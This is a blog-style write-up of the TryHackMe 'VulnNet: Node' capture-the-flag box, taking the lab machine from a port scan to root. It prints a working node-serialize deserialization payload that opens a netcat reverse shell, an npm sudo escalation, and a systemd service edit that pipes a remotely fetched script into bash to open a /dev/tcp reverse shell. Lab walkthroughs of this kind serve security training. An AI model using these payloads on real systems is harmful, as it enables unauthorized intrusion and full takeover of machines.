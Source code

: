 ```yaml
---
title: VulnNet:Node - Writeup
author: Elman Alizadeh
date: 2022-06-09 20:00:00 +0800
categories: [ctf, TryHackMe]
tags: [tryhackme, vulnnet]
---
```


Today we will take a look at TryHackMe:VulnNet: Node. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/thm-vulnnet-node/1.png" | relative_url }})

## Network scan

```console
sudo nmap -p- -sCV --open 10.10.41.219

PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
|_http-open-proxy: Proxy might be redirecting requests
```

## Web

![Desktop View]({{ "/assets/img/thm-vulnnet-node/2.png" | relative_url }})

When we first look at it, it greets us as a guest.

Let’s refresh the page and catch the request with burpsuite.

![Desktop View]({{ "/assets/img/thm-vulnnet-node/3.png" | relative_url }})

When we look at the request, we see that the website gives us cookie. Let’s decode and look at the contents.

![Desktop View]({{ "/assets/img/thm-vulnnet-node/4.png" | relative_url }})

We see that he marks us as guests. Replacing with admin and sending the request again.

![Desktop View]({{ "/assets/img/thm-vulnnet-node/5.png" | relative_url }})

We see that the response is “Welcome Admin”. It worked. But when we try to log in, we see that he wants the password again.

I received such an answer when I changed the cookie.

![Desktop View]({{ "/assets/img/thm-vulnnet-node/6.png" | relative_url }})

I pasted the sentence on Google. There is such an article.

[Exploit_node.js](https://ajinabraham.com/blog/exploiting-deserialization-bugs-in-nodejs-modules-for-remote-code-execution)

It’s time to get the reverse shell.

## Reverse Shell

```console
{"username":"_$$ND_FUNC$$_function(){ require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $IP 4444 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) }); }()","isAdmin":true,"encoding": "utf-8"}
```

Encode and send request.

![Desktop View]({{ "/assets/img/thm-vulnnet-node/7.png" | relative_url }})

Listen:

Command: nc -nvlp 4444

![Desktop View]({{ "/assets/img/thm-vulnnet-node/8.png" | relative_url }})

## serv-manage

After logging in:

```console
Command: script /dev/null -c bash

Command: export TERM=xterm

Ctrl + z

Command: stty raw -echo ; fg

Command: reset

www@vulnnet-node:~/VulnNet-Node$ sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

[npm_GTFO](https://gtfobins.github.io/gtfobins/npm/#sudo)

```console
www@vulnnet-node:~/VulnNet-Node$ mkdir exploit

www@vulnnet-node:~/VulnNet-Node$ echo '{"scripts": {"preinstall": "/bin/bash"}}' > exploit/package.json

www@vulnnet-node:~/VulnNet-Node$ sudo -u serv-manage npm -C exploit --unsafe-perm i
```

## Root

```console
serv-manage@vulnnet-node:/home/www/VulnNet-Node/exploit$ sudo -l

Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload

serv-manage@vulnnet-node: locate vulnnet-auto.timer

serv-manage@vulnnet-node: cat /etc/systemd/system/vulnnet-auto.timer

--------------------------------
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
--------------------------------

serv-manage@vulnnet-node: locate vulnnet-job.service

serv-manage@vulnnet-node: cat /etc/systemd/system/vulnnet-job.service

---------------------------------
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
---------------------------------
```

We see something like this here. “ExecStart = / bin / df” Here we can execute the command and get the reverse shell.

First, let’s prepare a payload on our own machine.

Exploit.sh

```console
$ nano exploit.sh

#!/bin/bash

bash -i >& /dev/tcp/Your_IP/4242 0>&1
```

Command: python3 -m http.server 80

In the target machine

```console
ExecStart=/bin/bash -c "curl http://Your_İP/exploit.sh | bash"
```

Local machine:

Command: nc -nvlp 4242

In the target machine

```console
serv-manage@vulnnet-node: sudo -u root /bin/systemctl stop vulnnet-auto.timer

serv-manage@vulnnet-node: sudo -u root /bin/systemctl start vulnnet-auto.timer
```

![Desktop View]({{ "/assets/img/thm-vulnnet-node/9.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/thm-vulnnet-node/10.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”